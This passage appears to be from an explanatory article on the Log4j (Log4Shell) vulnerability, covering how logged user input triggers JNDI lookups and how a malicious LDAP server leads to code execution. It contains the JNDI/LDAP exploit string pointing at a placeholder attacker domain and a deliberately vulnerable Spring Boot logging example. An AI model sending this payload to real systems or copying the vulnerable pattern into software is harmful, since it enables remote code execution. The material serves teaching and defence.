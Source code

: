 ### User Input

In order for the exploit to work, the attacker would need to get control over the contents of the log message so that the exploit string is included. This could be a common HTTP header, such as User-Agent, or any request parameter that is being sent to the logs as-is.

> Note: In the case of vulnerable Minecraft: Java Edition servers, it was enough to join a hosted game and send an in-game chat message that included the malicious `${jndi:ldap://malicious-domain/anything}` string to trigger the exploit.

For example, the following Spring Boot web application does exactly that: the **X-Api-Version** can be set to anything by the user, and it is logged using Log4j.

```java
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestHeader;
import org.springframework.web.bind.annotation.RestController;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

@RestController
public class MainController {

    private static final Logger logger = LogManager.getLogger("HelloWorld");

    @GetMapping("/")
    public String index(@RequestHeader("X-Api-Version") String apiVersion) {
        logger.info("Received a request for API version " + apiVersion); // Vulnerable: accepts user input via request headers!
        return "Hello, world!";
    }

}
```

As you can see, it is not unlikely that some sort of user-controlled input is logged in Java applications that use Log4j.

> Note: Tesla was [confirmed to be affected](https://github.com/YfryTchsGD/Log4jAttackSurface/blob/master/pages/Tesla.md) by setting the name of a Model 3 to the exploit string.

It is possible that Java applications that are not publicly accessible on the internet can still be exploitable. Imagine a `User-Agent` string containing the exploit that is passed to a service written in Java (such as Logstash or Elasticsearch) that indexes or analyzes the data.

### Malicious LDAP Server

Moritz Bechler said in a [blog post](https://mbechler.github.io/2018/01/20/Java-CVE-2018-2633/) on January 20, 2018 that JDNI has a "crazy feature" — the native ability to store Java objects in LDAP, including remote codebase references:

> [...] Essentially controlling the lookup name or the directory contents in conjunction with these calls leads to both the ability to launch a **Java deserialization attack** (encoded objects in tree) or **direct code execution** (through JNDI Reference factory loading).
